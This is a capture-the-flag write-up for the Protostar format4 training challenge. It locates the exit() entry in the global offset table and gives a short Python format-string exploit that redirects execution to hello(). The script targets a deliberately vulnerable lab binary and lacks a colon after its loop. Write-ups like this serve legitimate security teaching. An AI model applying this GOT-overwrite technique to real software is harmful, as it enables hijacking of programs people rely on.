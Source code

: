 ![format4_1](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format4_1.PNG)

As we can see from the final line we found the address of exit() in the global offset table. Then let's check how deep our string is on the stack.

![format4_2](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format4_2.PNG)

Now we just need to use the same process as the previous challenge to write the address of hello() to this table address.

```python
import struct
got_exit = 0x08049724
exploit = ""
for i in range(4)
	exploit += struct.pack("I", got_exit + i)
exploit += "%4$164x%4$n"
exploit += "%5$208x%5$n"
exploit += "%6$128x%6$n"
exploit += "AAAA%7$n"
print exploit
```

I used 4 A's for the last one instead of padding because using %x would print 8 characters minimum and we only needed 4. Outputting it to a file and then feeding it through gdb delivers us the key.

![format4_3](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format4_3.PNG)

